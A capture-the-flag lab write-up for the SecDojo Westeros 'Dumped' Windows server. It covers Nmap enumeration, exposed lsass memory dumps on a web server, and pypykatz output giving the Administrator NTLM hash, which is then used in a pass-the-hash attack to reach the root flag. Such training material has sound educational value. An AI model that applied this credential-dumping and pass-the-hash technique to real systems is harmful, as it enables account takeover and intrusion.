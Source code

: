 ```yaml
---
title: "SecDojo - Westeros Lab"
author: [Sesco]
subtitle: "Dumped machine write up"
date: "2022-12-29"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```


# Information

- **Name:** Westeros Lab - Dumped Machine
- **Profile:** SecDojo
- **Difficulty:** Easy
- **Description:** Westeros is a network of vulnerable Windows servers. Each box suffers from a severe vulnerability that if properly exploited, will grant you administrator access and get you the root flag located at the Administrator desktop folder.

# Enumeration

## NMAP

We begin our reconnaissance by running an Nmap scan checking services and their versions also checking default scripts and testing for vulnerabilities.

```console
$ nmap -sV -sC 172.16.4.202
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 14:29 UTC
Nmap scan report for 172.16.4.202
Host is up (0.0010s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 172.16.4.202 - /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-12-28T14:29:42+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Dumped
| Not valid before: 2022-12-27T14:20:10
|_Not valid after:  2023-06-28T14:20:10
| rdp-ntlm-info: 
|   Target_Name: DUMPED
|   NetBIOS_Domain_Name: DUMPED
|   NetBIOS_Computer_Name: DUMPED
|   DNS_Domain_Name: Dumped
|   DNS_Computer_Name: Dumped
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-28T14:29:37+00:00
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DUMPED, NetBIOS user: <unknown>, NetBIOS MAC: 06:ec:26:2c:5f:98 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-28T14:29:37
|_  start_date: 2022-12-28T14:20:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: Dumped
|   NetBIOS computer name: DUMPED\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T14:29:37+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```
From the above output we can see that ports, **80**, **135**, **139**, **445** and **3389** are the open ports also we found that the running system is **Windows Server 2016 Datacenter 6.3**.

## Port 80

After checking what's on port 80 this is what we found.

![](./Figure%2001.png)
**Figure 1:** *172.16.4.202:80/*

![](./Figure%2002.png)
**Figure 2:** *172.16.4.202:80/dumps/process/*

This is very interesting the **.DMP** file or dump file format is used by Windows to dump the memory of a crashed program into a file for later diagnostic analysis therefore if we can extract informations from those files it can be helpful.

![](./Figure%2003.png)
**Figure 3:** *determining file type*

# Exploitation

After beating my head up trying to find a way or a tool to extract the informations from **.DMP** files, I finally found a tool named **pypykatz.py** which is Mimikatz implementation in python, and it only works with **lsass.DMP** which is decent because the **lsass.exe** process is the one responsible for verifing users logging on to a Windows computer or server, handles password changes, and creates access tokens. it means we can find passwords in its dump file.

```console
$ pypykatz lsa minidump ./lsass.DMP 
INFO:root:Parsing file ./lsass.DMP
FILE: ======== ./lsass.DMP =======
== LogonSession ==
authentication_id 2038524 (1f1afc)
session_id 0
username Administrator
domainname DUMPED
logon_server DUMPED
logon_time 2020-10-29T17:27:39.507840+00:00
sid S-1-5-21-3442779028-2509691204-4132320481-500
luid 2038524
....
== LogonSession ==
authentication_id 161412 (27684)
session_id 2
username Administrator
domainname DUMPED
logon_server DUMPED
logon_time 2020-10-29T15:19:57.115459+00:00
sid S-1-5-21-3442779028-2509691204-4132320481-500
luid 161412
        == MSV ==
                Username: Administrator
                Domain: DUMPED
                LM: NA
                NT: 78f9261c7b0f08bd9a3b3b13340e4c2a
                SHA1: b1553efa581712a8efead9829535b1a723f7cc40
                DPAPI: NA
        == WDIGEST [27684]==
                username Administrator
                domainname DUMPED
                password None
        == Kerberos ==
                Username: Administrator
                Domain: DUMPED
        == WDIGEST [27684]==
                username Administrator
                domainname DUMPED
                password None
        == DPAPI [27684]==
                luid 161412
                key_guid 6a105211-df65-4190-9119-f3fc00c33238
                masterkey e91a544b4dc136e4b0518571830bcd35c6540437e79e443f253f6df973b05a99129cd95441c4c4fce3101834a1bbc18fe09f347d62b6b81af8af58e3959741cd
                sha1_masterkey 1e4f90580f6afabf0c4c867a3c39891490736d1c
....
```

Even though we didn't find a text-format passwords, there was a part of NTLM hash **`NT:78f9261c7b0f08bd9a3b3b13340e4c2a`** which we could use in our Pass-The-Hash attack using **psexec.py** tool.


![](./Figure%2004.png)
**Figure 4:** *Inside the windows machine*

## Root Flag
After navigating to the Administator's desktop I found our flag.

**`Dumped_Sesco-xaaxzdlfy4zjwjs5ln0nfvmtwqqhlwy4`**

